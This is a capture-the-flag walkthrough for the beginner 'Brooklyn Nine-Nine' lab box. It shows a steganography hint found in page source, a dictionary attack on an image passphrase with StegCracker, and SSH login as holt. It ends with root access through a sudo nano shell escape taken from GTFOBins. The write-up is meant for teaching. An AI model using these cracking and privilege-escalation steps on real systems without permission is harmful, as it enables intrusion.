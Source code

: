 # Brooklyn Nine-Nine
Though the name of this room refers to one of the globally famous series, it does not have anything to do with solving the box. To be honest, this room is a really easy box once you get the initial foothold. Marked as beginner, this box is truly beginner-friendly and very easy to solve. 

This box can be solved in two ways, I'll be explaining one of them. In this path, we'll be using mainly Steghide and GTFOBins. So, let's get started!

### Initial Foothold
Once the machine gets deployed, we can go `http://<machine_ip>` and see that there is an auto-sizing Brooklyn Nine-Nine poster that adjusts its size to our browser's window size. Which looks like:

![homepage_poster](./.images/homepage_poster.png)

For any webpage, the first thing that we can do is check out it's source-code and over there we can see a hint related to `steganography`.

![source-code](./.images/source_code.png)

Now, we can think like we have an image and a hint towards steganography. So, we can download the image and see if there is something hidden inside it. We can use `Steghide` to uncover the hidden data:

```
tester@kali:~/Downloads$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Steghide was not able to retrieve the data from the image, so we can try to do the same with `StegCracker`. If StegCracker is not present on your machine, it can be downloaded using the command `sudo apt install stegcracker`.

We can pass on a wordlist as to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

```
tester@kali:~/Downloads$ stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20395 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

We can see that the file has been cracked and the data has been written to a new file. 

```
tester@kali:~/Downloads$ cat brooklyn99.jpg.out 
Holts Password:
*******************

Enjoy!!
```

Now, we have the user credentials that we can try to use with SSH. Keep in mind that the username is `holt` and I've hid the password with `*`.

```
tester@kali:~$ ssh holt@10.10.182.115
The authenticity of host '10.10.182.115 (10.10.182.115)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.182.115' (ECDSA) to the list of known hosts.
holt@10.10.182.115's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt 
*******************************
```

And we got the `user.txt` flag. Now, the next task is to get the root access for which we need to perform privilege escalation.

### Privilege Escalation
As we have already logged in as holt, we need to become root to get the second flag. We can check for the commands that can be executed as user holt. To do this we can use the command `sudo -l` to list all the commands that we can execute as root.

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

We can see that the command `/bin/nano` can be executed as 'root' by user 'holt'. So, we can check if there are any [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) for `nano`. We can run the commands as described in GTFOBins and get the shell access as root.

First, we need to enter the `nano editor` with sudo privilege using the command:

```
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Once, we get into the editor we need to press Ctrl+R and then Ctrl+X and then we can execute the command `reset; sh 1>&0 2>&0`. This will give us a root shell using which we can read the `root.txt` from `/root` directory.

![privesc](./.images/privesc.gif)

Now we can take the flag from `root.txt` and submit it as the flag for the second question. With this, we have solved the `Brooklyn Nine-Nine` room!

## Some Key Points to Take Away
1. Whenever you have access to a webpage, check it's source-code for any kind of `Sensitive Information Disclosure`.
2. If you have an image, try to check it for steganography with Steghide or StegCracker.
3. For PrivEsc, always run the command `sudo -l` to check what commands can be executed with sudo privilege by the user and then look up how that command can be exploited using `GTFOBins`.
